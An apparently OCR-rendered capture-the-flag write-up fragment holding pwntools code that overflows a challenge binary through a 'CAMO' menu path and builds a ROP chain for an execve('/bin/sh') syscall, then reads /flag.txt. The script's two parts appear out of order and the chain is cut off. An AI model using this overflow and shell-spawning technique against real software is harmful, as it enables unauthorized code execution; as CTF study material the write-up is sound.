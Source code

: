 ```python
    elif args.REMOTE:
        return remote(args.HOST,args.PORT)
    else:
        return process(e.path)


p = start()

setup_overflow()
syscall_chain()

pause(1)
p.sendline(b'cat /flag.txt')

p.interactive()
```

- exploit path through *camo*

```python
from pwn import *

binary = args.BIN

context.terminal = ["tmux", "splitw", "-h"]
e = context.binary = ELF(binary)
r = ROP(e)

gs = """
continue
"""


def unsafe():
    p.recvuntil(b">>>")
    p.sendline(b"SAFE")
    p.recvuntil(b">>>")
    p.sendline(b"N")


def setup_overflow():
    unsafe()
    p.recvuntil(b">>>")
    p.sendline(b"CAMO")
    p.recvuntil(b">>>")
    p.sendline(b"INT")


def syscall_chain():
    pop_rdx_rcx = r.find_gadget(["pop rax", "pop rdx", "pop rcx", "ret"])[0]
    pop_rdi_rsi = r.find_gadget(["pop rdi", "pop rsi", "syscall"])[0]
    sh = next(e.search(b"/bin/sh\0"))
    log.info(f"Pop rax, rdx, rcx, retgadget: {hex(pop_rdx_rcx)}")
    log.info(f"Pop rdi, rsi, syscall gadget: {hex(pop_rdi_rsi)}")
    log.info(f"sh: {hex(sh)}")

    chain = cyclic(264)
    chain += p64(pop_rdx_rcx)
    chain += p64(0x3B)  # rax = 0x3b
    chain += p64(0x0)  # rcx = 0
    chain += p64(0x0)  # rdx = 0
    chain += p64(pop_rdi_rsi)
    chain += p64(sh)  # rdi = sh
    chain += p64(0x0)
```